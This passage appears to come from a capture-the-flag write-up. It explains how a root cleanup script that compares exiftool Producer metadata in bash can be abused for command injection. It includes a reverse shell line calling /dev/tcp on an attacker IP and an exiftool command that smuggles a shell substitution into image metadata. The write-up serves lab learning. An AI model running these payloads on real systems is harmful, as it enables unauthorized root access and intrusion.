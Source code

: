         if [[ -f "$cfile" ]]; then
    
            meta_producer=$(/usr/bin/exiftool -s -s -s -Producer "$cfile" 2>/dev/null | cut -d " " -f1)
    
            if [[ "$meta_producer" -eq "dompdf" ]]; then
                echo "Removing $cfile"
                rm "$cfile"
            fi
    
        fi
    
    done

The script loops through every file in **/tmp** directory and use **exiftool** to verify if the file has dompdf as **Producer** metadata and if it has value dompdf as a producer metadata, it deletes the file.

Since the script is run by root, we need to inject a simple image with some command on Producer metadata so that it would execute while running the script.

![](https://cdn-images-1.medium.com/max/2000/1*HFk4H2U-D3jktzu-O0ZxTQ.png)

Create a reverse.sh file which executes the reverse shell payload into our system.

    #!/bin/bash
    /bin/bash -i >& /dev/tcp/10.10.14.57/1339 0>&1

![](https://cdn-images-1.medium.com/max/2000/1*A4Ml2ozeIUla5hD_2pGErA.png)

Transfer that bash file to **/var/www/** folder in the box. **/var/www/** folder is set to be default home directory in the box.

![](https://cdn-images-1.medium.com/max/2000/1*xLrU4eIlg2thlYQdRXvm4g.png)

Inject command to execute **/var/www/reverse.sh** whenever the output of the exiftool is compared.

    exiftool -Producer='$(/var/www/reverse.sh>&2)' image.jpg

After injecting the command in Producer metadata, transfer that file into /tmp directory of the box. We should get the reverse shell here, since when the **/usr/local/sbin/cleancache.sh** script runs, it will take out the Producer metadata which we injected, store in a variable and executes it during the comparison with dompdf.

![](https://cdn-images-1.medium.com/max/2000/1*J4IcnLzQGpHf4f1RucMt7Q.png)

But waiting for the long time, we did not get any reverse connection here. Let’s execute the script **/usr/local/sbin/cleancache.sh** manually and see if we get any hint or error.

![](https://cdn-images-1.medium.com/max/2000/1*xbQmWvRsDt5neYYSfe42xw.png)

We got some syntax error during comparison. After enumerating some resources regarding the syntax during bash comparison and possible command injection on it, I found a very useful resources.
[Bash's white collar eval: [[ $var -eq 42 ]] runs arbitrary code too](https://www.vidarholen.net/contents/blog/?p=716)

This resource explains how we can inject the command in comparisons.
